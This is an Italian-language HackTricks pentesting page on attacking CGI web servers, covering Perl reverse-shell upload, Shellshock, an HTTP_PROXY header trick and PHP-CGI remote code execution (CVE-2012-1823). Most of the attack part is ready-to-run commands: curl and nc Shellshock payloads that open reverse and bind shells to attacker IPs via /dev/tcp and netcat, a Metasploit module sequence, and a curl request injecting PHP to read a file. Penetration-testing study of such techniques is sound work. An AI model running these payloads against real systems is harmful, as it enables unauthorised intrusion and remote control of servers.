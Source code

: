 {% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Approfondisci la tua esperienza in **Mobile Security** con 8kSec Academy. Padroneggia la sicurezza di iOS e Android attraverso i nostri corsi autogestiti e ottieni una certificazione:

{% embed url="https://academy.8ksec.io/" %}


# Informazioni

Gli **script CGI sono script perl**, quindi, se hai compromesso un server che può eseguire _**.cgi**_ script puoi **caricare una perl reverse shell** \(`/usr/share/webshells/perl/perl-reverse-shell.pl`\), **cambiare l'estensione** da **.pl** a **.cgi**, dare **permessi di esecuzione** \(`chmod +x`\) e **accedere** alla reverse shell **dal browser web** per eseguirla.
Per testare le **vulnerabilità CGI** è consigliato usare `nikto -C all` \(e tutti i plugin\)

# **ShellShock**

**ShellShock** è una **vulnerabilità** che colpisce la **Bash** shell della riga di comando ampiamente utilizzata nei sistemi operativi basati su Unix. Mira alla capacità di Bash di eseguire comandi passati dalle applicazioni. La vulnerabilità risiede nella manipolazione delle **variabili di ambiente**, che sono valori nominati dinamici che influenzano il modo in cui i processi vengono eseguiti su un computer. Gli attaccanti possono sfruttare questo attaccando **codice malevolo** alle variabili di ambiente, che viene eseguito al ricevimento della variabile. Questo consente agli attaccanti di compromettere potenzialmente il sistema.

Sfruttando questa vulnerabilità la **pagina potrebbe generare un errore**.

Potresti **trovare** questa vulnerabilità notando che sta utilizzando una **vecchia versione di Apache** e **cgi\_mod** \(con cartella cgi\) o usando **nikto**.

## **Test**

La maggior parte dei test si basa sull'eco di qualcosa e si aspetta che quella stringa venga restituita nella risposta web. Se pensi che una pagina possa essere vulnerabile, cerca tutte le pagine cgi e testale.

**Nmap**
```bash
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```
## **Curl \(riflesso, cieco e out-of-band\)**
```bash
# Reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi
# Out-Of-Band Use Cookie as alternative to User-Agent
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://10.10.10.10/cgi-bin/user.sh
```
[**Shellsocker**](https://github.com/liamim/shellshocker)
```bash
python shellshocker.py http://10.11.1.71/cgi-bin/admin.cgi
```
## Sfruttamento
```bash
#Bind Shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 8
#Reverse shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
#Reverse shell using curl
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.11.0.41/80 0>&1' http://10.1.2.11/cgi-bin/admin.cgi
#Reverse shell using metasploit
> use multi/http/apache_mod_cgi_bash_env_exec
> set targeturi /cgi-bin/admin.cgi
> set rhosts 10.1.2.11
> run
```
# **Proxy \(MitM per le richieste al server web\)**

CGI crea una variabile d'ambiente per ogni intestazione nella richiesta http. Ad esempio: "host:web.com" viene creata come "HTTP\_HOST"="web.com"

Poiché la variabile HTTP\_PROXY potrebbe essere utilizzata dal server web. Prova a inviare un **header** contenente: "**Proxy: &lt;IP\_attacker&gt;:&lt;PORT&gt;**" e se il server esegue qualche richiesta durante la sessione. Sarai in grado di catturare ogni richiesta effettuata dal server.

# Old PHP + CGI = RCE \(CVE-2012-1823, CVE-2012-2311\)

Fondamentalmente, se cgi è attivo e php è "vecchio" \(&lt;5.3.12 / &lt; 5.4.2\) puoi eseguire codice. 
Per sfruttare questa vulnerabilità devi accedere a qualche file PHP del server web senza inviare parametri \(soprattutto senza inviare il carattere "="\). 
Poi, per testare questa vulnerabilità, potresti accedere ad esempio a `/index.php?-s` \(nota il `-s`\) e **il codice sorgente dell'applicazione apparirà nella risposta**.

Poi, per ottenere **RCE** puoi inviare questa query speciale: `/?-d allow_url_include=1 -d auto_prepend_file=php://input` e il **codice PHP** da eseguire nel **corpo della richiesta. Esempio:**
```bash
curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://jh2i.com:50008/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```
**Ulteriori informazioni sulla vulnerabilità e possibili exploit:** [**https://www.zero-day.cz/database/337/**](https://www.zero-day.cz/database/337/)**,** [**cve-2012-1823**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-1823)**,** [**cve-2012-2311**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-2311)**,** [**Esempio di Writeup CTF**](https://github.com/W3rni0/HacktivityCon_CTF_2020#gi-joe)**.**

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Approfondisci la tua esperienza in **Sicurezza Mobile** con 8kSec Academy. Padroneggia la sicurezza di iOS e Android attraverso i nostri corsi autogestiti e ottieni una certificazione:

{% embed url="https://academy.8ksec.io/" %}

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
